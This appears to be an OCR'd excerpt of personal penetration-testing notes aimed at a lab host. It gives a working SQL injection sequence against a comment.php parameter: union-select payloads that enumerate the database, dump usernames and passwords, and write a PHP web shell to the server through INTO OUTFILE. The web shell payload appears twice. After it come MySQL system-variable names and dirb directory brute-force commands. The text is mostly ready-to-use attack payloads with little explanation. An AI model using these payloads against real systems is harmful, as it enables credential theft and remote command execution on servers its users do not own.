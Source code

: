 
current user
http://10.11.1.35/comment.php?id=738 union all select 1,2,3,4,user(),6


table names
http://10.11.1.35/comment.php?id=738 union all select 1,2,3,4,table_name,6 FROM information_schema.tables


column names in a specific table
http://10.11.1.35/comment.php?id=738 union all select 1,2,3,4,column_name,6 FROM information_schema.columns where table_name='users'


extract username and password
http://10.11.1.35/comment.php?id=738 union select 1,2,3,4,concat(name,0x3a,password),6 FROM users


5) put code on the server
http://10.11.1.35/comment.php?id=738 union all select 1,2,3,4,"<?php echo
shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'








http://10.11.1.35/comment.php?id=738 union all select 1,2,3,4,"<?php echo
shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'






@@hostname : Current Hostname
@@tmpdir : Tept Directory
@@datadir : Data Directory
@@version : Version of DB
@@basedir : Base Directory
user() : Current User
database() : Current Database
version() : Version
schema() : current Database
UUID() : System UUID key
current_user() : Current User


125) static dns entry. add an entry to /etc/hosts
ip address    <> hostname




126) dirb web directory brute force


dirb [URL target host] [wordlist]
root@kali:~# dirb http://10.10.10.100 /usr/share/wordlists/dirb/big.txt
-p 10.10.10.10:3128               << here it is with a proxy


dirb http://192.168.30.67 /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
